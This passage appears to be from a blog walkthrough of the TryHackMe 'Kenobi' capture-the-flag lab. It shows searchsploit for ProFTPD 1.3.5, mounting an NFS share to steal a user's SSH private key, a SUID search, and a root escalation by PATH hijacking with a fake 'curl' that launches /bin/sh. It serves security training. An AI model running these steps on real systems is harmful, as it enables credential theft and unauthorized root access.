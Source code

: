 ```bash
searchsploit ProFtpd 1.3.5
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586044971/4a61fc21-4adb-4aba-8c24-23a4b907b6d0.png align="center")

Looks like there is a Metasploit module called `mod_copy`. But let's do this the manual way using netcat.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586051498/7c40718d-2a19-41d5-b4b2-16eebcf79ebd.png align="center")

What we did was move the private key over to `/var` since we discovered that was the mount point during our SMB enumeration. Let's mount to the `/var/tmp` directory now.

```bash
mkdir /mnt/kenobiNFS
mount 10.10.165.161:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

We now have the network mounted on our attack box. Let's pull down the `id_rsa` SSH key and use it to connect to the box using Kenobi's account.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586070312/0644a500-f20f-42d9-ac96-acc4bf3aed36.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586074001/0d2a88fc-0940-4a8f-af9a-e5e39d23b076.png align="center")

We're in! You'll find your first flag at `/home/kenobi/user.txt`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586086159/1358d236-98a7-4cc6-9f10-d8d56b9b7ed1.png align="center")

### Step 5: Privesc and Root

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586100815/57fdc0ed-56d0-4fd7-a43b-79d6e824852c.webp align="center")

Let's search the system for a binary running elevated permissions.

```bash
find / -perm -u=s -type f 2>/dev/null
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586116402/00c9b277-6786-4021-bcb5-da4a7906e0cb.webp align="center")

The binary `/usr/bin/menu` is not ordinary and can be used for elevating privileges. Let's move it over to the `/tmp` directory since we know it's writable. From there we can change the name of `/bin/sh` to `curl` and give it the appropriate permissions to run. From there we will put it on the same path as `/tmp`.

```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586137377/5542d71a-f954-47f8-9aac-0806e2c056c3.webp align="center")

And we have root! Type `cat /root/root.txt` and you'll find your last flag.

I hope you enjoyed this walkthrough of the [Kenobi](https://tryhackme.com/room/kenobi) CTF found on [TryHackMe](https://tryhackme.com). Happy Hacking.